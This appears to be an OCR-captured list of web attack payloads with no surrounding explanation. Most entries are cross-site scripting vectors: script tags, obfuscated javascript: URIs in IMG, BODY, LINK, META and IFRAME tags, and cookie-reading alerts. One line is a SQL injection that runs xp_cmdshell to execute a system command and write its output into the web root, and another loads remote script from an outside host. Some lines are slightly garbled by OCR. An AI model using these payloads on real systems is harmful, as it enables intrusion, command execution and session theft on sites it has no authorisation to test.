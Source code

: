 a?&lt;script&gt;alert('Vulnerable')&lt;/script&gt;
 
"&gt;&lt;script&gt;alert('Vulnerable')&lt;/script&gt;
 
';exec%20master..xp_cmdshell%20'dir%20 c:%20&gt;%20c:\inetpub\wwwroot\?.txt'--&amp;&amp;
 
%22%3E%3Cscript%3Ealert(document.cookie)%3C/script%3E
 
%3Cscript%3Ealert(document. domain);%3C/script%3E&amp;
 
%3Cscript%3Ealert(document.domain);%3C/script%3E&amp;SESSION_ID={SESSION_ID}&amp;SESSION_ID=
 
&lt;IMG src="javascript:alert('XSS');"&gt;
 
&lt;IMG src=javascript:alert('XSS')&gt;
 
&lt;IMG src=JaVaScRiPt:alert('XSS')&gt;
 
&lt;IMG src=JaVaScRiPt:alert("XSS")&gt;
 
&lt;IMG src=javascript:alert('XSS')&gt;
 
&lt;IMG src=javascript:alert('XSS')&gt;
 
&lt;IMG src=javascript:alert('XSS')&gt;
 
&lt;IMG src="jav ascript:alert('XSS');"&gt;
 
&lt;IMG src="jav ascript:alert('XSS');"&gt;
 
&lt;IMG src="jav ascript:alert('XSS');"&gt;
 
"&lt;IMG src=java\0script:alert(\"XSS\")&gt;";' &gt; out
 
&lt;IMG src=" javascript:alert('XSS');"&gt;
 
&lt;SCRIPT&gt;a=/XSS/alert(a.source)&lt;/SCRIPT&gt;
 
&lt;BODY BACKGROUND="javascript:alert('XSS')"&gt;
 
&lt;BODY ONLOAD=alert('XSS')&gt;
 
&lt;IMG DYNSRC="javascript:alert('XSS')"&gt;
 
&lt;IMG LOWSRC="javascript:alert('XSS')"&gt;
 
&lt;BGSOUND src="javascript:alert('XSS');"&gt;
 
&lt;br size="&amp;{alert('XSS')}"&gt;
 
&lt;LAYER src="http://xss.ha.ckers.org/a.js"&gt;&lt;/layer&gt;
 
&lt;LINK REL="stylesheet" href="javascript:alert('XSS');"&gt;
 
&lt;IMG src='vbscript:msgbox("XSS")'&gt;
 
&lt;IMG src="mocha:[code]"&gt;
 
&lt;IMG src="livescript:[code]"&gt;
 
&lt;META HTTP-EQUIV="refresh" CONTENT="0;url=javascript:alert('XSS');"&gt;
 
&lt;IFRAME src=javascript:alert('XSS')&gt;&lt;/IFRAME&gt;
 
&lt;FRAMESET&gt;&lt;FRAME src=javascript:alert('XSS')&gt;&lt;/FRAME&gt;&lt;/FRAMESET&gt;
 